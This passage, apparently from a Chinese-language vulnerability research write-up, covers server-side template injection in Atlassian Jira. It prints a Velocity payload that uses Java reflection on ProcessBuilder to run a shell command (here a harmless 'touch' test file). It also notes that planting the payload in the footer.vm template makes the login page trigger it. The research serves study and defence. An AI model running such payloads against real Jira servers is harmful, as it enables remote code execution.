 ```plain
    #set($pbcls=$x.class.forName("java.lang.ProcessBuilder"))
    #set($pbcon=$pbcls.getDeclaredConstructor($list))
    #set($alistcls=$x.class.forName("java.util.ArrayList"))
    #set($arrtest=["/bin/sh","-c","touch /tmp/successPB"])
    #set($pb=$pbcon.newInstance($arrtest))
    $pb.start()


javax.el.ImportHandler:


javax.el.ELManager:
```

### 4、其他触发方式

甚至不需要在发送邮件的时候时候才能够触发模版引擎，测试的过程中一不小心断点没有 mute，在访问邮件发送的页面时，发现也是模版引擎渲染的。

于是我将 payload 放置在`atlassian-jira/WEB-INF/classes/templates/plugins/footer/footer.vm`里面，发现了这样有趣的事，我才意识到。在登陆页面的页脚也同样会触发。

[![](assets/1708149766-7687db230fe73e56de868a91b3fd8f9a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20220515173225-ee03ce32-d431-1.png)
